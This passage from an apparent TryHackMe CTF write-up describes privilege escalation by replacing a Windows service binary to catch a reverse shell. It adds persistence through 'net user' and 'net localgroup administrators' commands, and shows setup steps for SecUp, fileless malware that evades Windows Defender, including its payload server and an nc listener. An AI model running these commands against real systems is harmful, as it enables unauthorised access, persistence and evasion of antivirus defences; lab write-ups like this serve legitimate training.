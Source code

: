 After restarting the service with `Start-Service -Name "spoofer-scheduler"` we get a reverse shell running a privileged account.

![Privileged shell obtained](/images/THM-HackSmarterSecurity/privileged-shell.png)

But the shell is unstable and dies quickly. Because the service is not starting properly (since we replaced the file), WIndows is timing it out.

![Service cannot be started and gets timed out](/images/THM-HackSmarterSecurity/service-error.png)

To establish persistence a new user can quickly be created and added to the `administrators` group to gain admin privileges.

```
net user <username> <password> /add
net localgroup administrators <username> /add
```
![Persistence is achieved via the creation of a new privileged user](/images/THM-HackSmarterSecurity/persistence-account.png)

The newly created account can then be used to access the system via SSH.

![Privileges of the newly created admin account](/images/THM-HackSmarterSecurity/persistence-account-privs.png)

#### Which organizations is the Hack Smarter group targeting next? 

Since we have admin privileges we can access the list of the next targets at `C:\Users\Administrator\Desktop\Hacking-Targets\hacking-targets.txt`.

![Hackers' targets list](/images/THM-HackSmarterSecurity/hacking-targets.png)

### Using fileless malware 

Another method to bypass Windows Defender is to use [SecUp](https://github.com/daniellowrie/update_script). It is a "fileless malware that bypasses Windows Defender using PowerShell and obfuscation." You can also check the [YouTube video](https://www.youtube.com/watch?v=LjoAV3O40og&ab_channel=DanielLowrie) for an explanation.

1. Clone the repository 

```
git clone https://github.com/daniellowrie/update_script
```

2. Start the engine. It also starts an HTTP server to transfer the malcious files.

```
go run SecUp.go 10.2.104.130
```

![go run command](/images/THM-HackSmarterSecurity/go-run.png)

3.  Set up a listener on port 443

```
nc -lnvp 443
```
